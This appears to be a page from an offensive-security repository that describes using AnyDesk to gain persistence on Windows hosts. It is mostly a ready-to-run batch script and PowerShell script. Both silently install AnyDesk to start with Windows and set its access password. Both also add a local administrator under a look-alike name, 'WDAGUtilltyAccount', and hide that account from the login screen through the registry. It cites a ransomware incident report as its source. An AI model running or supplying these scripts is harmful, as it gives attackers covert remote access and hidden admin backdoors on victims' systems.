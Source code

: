 # Third-Party Programs

TODO: Provide more third-party programs to gain persistence.

## 01 - AnyDesk

### 1.1 - Automation

`$ cat deploy.bat`

---

```
mkdir %appdata%\appdata\local\AnyDesk
curl.exe -o %appdata%\appdata\local\temp\Anydesk.exe https://download.anydesk.com/AnyDesk.exe
%appdata%\appdata\local\temp\anydesk.exe --install %appdata%\appdata\local\AnyDesk --start-with-win --slient
del %appdata%\appdata\local\temp\anydesk.exe
echo <password> | %appdata%\appdata\local\AnyDesk\AnyDesk.exe --set-password
net user WDAGUtilltyAccount <password> /add
net localgroup Administrators WDAGUtilltyAccount /add
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" /v WDAGUtilltyAccount /t REG_DWORD /d 0 /f
for /f "delims=" %i in ('%appdata%\AppData\Local\AnyDesk\AnyDesk.exe --get-id') do echo %i
```

`$ cat deploy.ps1`

---

```powershell
function AnyDesk {
    $anydesk_folder = "C:\ProgramData\AnyDesk"
    mkdir $anydesk_folder
    $web = New-Object Net.WebClient
    $url = "https://download.anydesk.com/AnyDesk.exe"
    $file = "C:\ProgramData\AnyDesk.exe"
    $web.DownloadFile($url, $file)
    
    $username = "WDAGUtilltyAccount"
    $password = ConvertTo-SecureString "<password>" -AsPlainText -Force
    $password_cmd = "<password>"

    # cmd.exe /c $file --install $anydesk_folder --start-with-win --silent

    # cmd.exe /c echo $password_cmd | $file --set-password

    # net user $username $password_cmd /add
    # net localgroup Administrators $username /add
    # reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" /v WDAGUtilltyAccount /t REG_DWORD /d 0 /f

    # cmd.exe /c $path --get-id

    Start-Process -FilePath $file -NoNewWindow -Credential $credential -ArgumentList("--install", $anydesk_folder, "--start-with-win", "--slient")
    cmd.exe /c echo $password_cmd | $file --set-password

    New-LocalUser -Name $username -Password $password
    Add-LocalGroupMember -Groups Administrators -Member $username
    Set-ItemProperty -Force -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" -Name WDAGUtilltyAccount -Type DWord -Value 0

    Start-Process -FilePath $file -NoNewWindow -Credential $credential -ArgumentList("--get-id")
}

AnyDesk
```

---
## References

- [The DFIR Report: Malicious ISO File Leads to Domain Wide Ransomware](https://thedfirreport.com/2023/04/03/malicious-iso-file-leads-to-domain-wide-ransomware/)